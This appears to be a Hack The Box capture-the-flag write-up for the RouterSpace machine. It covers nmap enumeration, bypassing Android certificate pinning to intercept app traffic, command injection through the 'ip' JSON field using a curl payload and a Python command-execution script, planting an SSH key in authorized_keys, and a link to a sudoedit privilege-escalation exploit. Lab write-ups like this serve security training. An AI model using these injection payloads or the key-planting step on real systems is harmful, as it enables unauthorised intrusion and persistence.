








<p align="right"><a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.148 routerspace.htb

**nmap scan: TCP/IP**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-RouterSpace Packet Filtering V1
| ssh-hostkey: 
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)
80/tcp open  http
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-285
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 64
|     ETag: W/"40-IsjmuQeSoXp5nkQG8W0b7AT2rqg"
|     Date: Fri, 13 May 2022 01:39:18 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: 3 A ob6Q }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-68559
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Fri, 13 May 2022 01:39:15 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-23456
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Fri, 13 May 2022 01:39:16 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-title: RouterSpace
|_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data.
```


Nothing interesting on home page, except a download link for an android application.

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-10.10.11.148-index.html.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-10.10.11.148-index.html.png"><i>Click for full image</i></a></div>
</div>

Also don't find anything interesting from decompiling apk.

# Foothold 

## Android app dynamic analysis

Running apk in android emulator [genymotion](https://www.genymotion.com/).



For Running and Intercepting application traffic we need to do some configurations.

1. Install genymotion and virtualbox and other required libraries.
   * Download: https://www.genymotion.com/download/
   * Install: https://docs.genymotion.com/desktop/Get_started/013_Linux_install/
   * If you get Error: "An error has occurred while trying to create a VirtualBox host-only network interface." Run this: `sudo apt-get --reinstall install virtualbox-dkms`

2. Add new virtual device with Android API version less than or equal to Android 8.1 OR API 27.
   * I use "NAT" network mode for virtualbox network interface.

3. Install xposedinstaller and JustTrustMe, and enable "JustTrustMe" from xposed modules.

   

4. Install burp CA certificate as root.
5. Put burp proxy address in your android VM using adb shell.

* There are some changes in Android CA policies since Android N (Android version 7.0 to 7.1) which makes it hard to intercept application traffic because of the [certificate pinning](https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning).
* RECOMMENDED version is 4.4 but application doesn't support old android API. if you want to use newer version then it must **NOT** greater then 8.1 because there a xposed module ([JustTrustMe](https://github.com/Fuzion24/JustTrustMe)) available to bypass certificate pinning up to Android API 27 - https://forum.xda-developers.com/t/official-xposed-for-lollipop-marshmallow-nougat-oreo-v90-beta3-2018-01-29.3034811/
  * xposedinstaller - https://forum.xda-developers.com/attachments/xposedinstaller_3-1-5-apk.4393082/
  * JustTrustMe - https://github.com/Fuzion24/JustTrustMe/releases/download/v.2/JustTrustMe.apk

And for intercepting application traffic in newer android we need to install burp CA certificate as root - https://blog.ropnop.com/configuring-burp-suite-with-android-nougat/ 
```bash
# Convert DER to PEM
openssl x509 -inform DER -in cacert.der -out cacert.pem

# Get subject_hash_old (or subject_hash if OpenSSL < 1.0)
openssl x509 -inform PEM -subject_hash_old -in cacert.pem |head -1

# Rename cacert.pem to <hash>.0
mv cacert.pem 9a5ba575.0

# Remount and copy cert to device
adb root
adb remount
adb push 9a5ba575.0 /sdcard/
adb shell
vbox86p:/ # mv /sdcard/9a5ba575.0 /system/etc/security/cacerts/
vbox86p:/ # chmod 644 /system/etc/security/cacerts/9a5ba575.0
vbox86p:/ # exit
adb reboot
```



And, for routing traffic through Burpsuite, add burp proxy using adb shell
```bash
adb shell settings put global http_proxy localhost:3333
adb reverse tcp:3333 tcp:8080

# for removing proxy from android
adb shell settings put global http_proxy :0
```

And finally proxy setup completed successfully, now we can intercept application traffic.



* Got a hostname: `routerspace.htb`, add in `/etc/hosts` file.

And that "`ip`" parameter is vulnerable for command injection
```bash
curl -s -X POST \
    -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' -H 'Host: routerspace.htb' \
    --data-binary $'{\"ip\":\";id\"}' \
    $'http://10.10.11.148/api/v4/monitoring/router/dev/check/deviceAccess'
```



But reverse shell is not working, Maybe we have to enumerate file system from here.

Here's simple python script for that.
```py
import requests as r
import sys

cmd = sys.argv[1]
headers = {'user-agent': 'RouterSpaceAgent', 'Content-Type': 'application/json', 'Host': 'routerspace.htb'}
url = 'http://10.10.11.148/api/v4/monitoring/router/dev/check/deviceAccess' 
data = {"ip":f";{cmd}"}
req = r.post(url=url, json=data, headers=headers)
print(req.text.encode('utf-8').decode('unicode_escape'))
```

Don't find private ssh key but we have write access so we could add our public key inside `/home/paul/.ssh/authorized_keys`
* use `ssh-keygen` to generate ssh key pair
```bash
python exploit.py 'echo "<ssh_public_key>" > /home/paul/.ssh/authorized_keys'
```

And successfully get ssh shell as user "paul".

# Privesc

## Sudoedit Exploit

There are some IPtable rules which blocking any unwanted incoming or outgoing traffic which blocks our reverse shell.

Easiest way to put linpeas.sh script in the box is using `scp` command.
```bash 
scp -i paul linpeas.sh paul@10.10.11.148:/tmp
```

Linpeas "Linux Exploit Suggester" check found that box is vulnerable for [sudoedit](https://github.com/worawit/CVE-2021-3156) exploit.

* Here is working exploit version - https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py


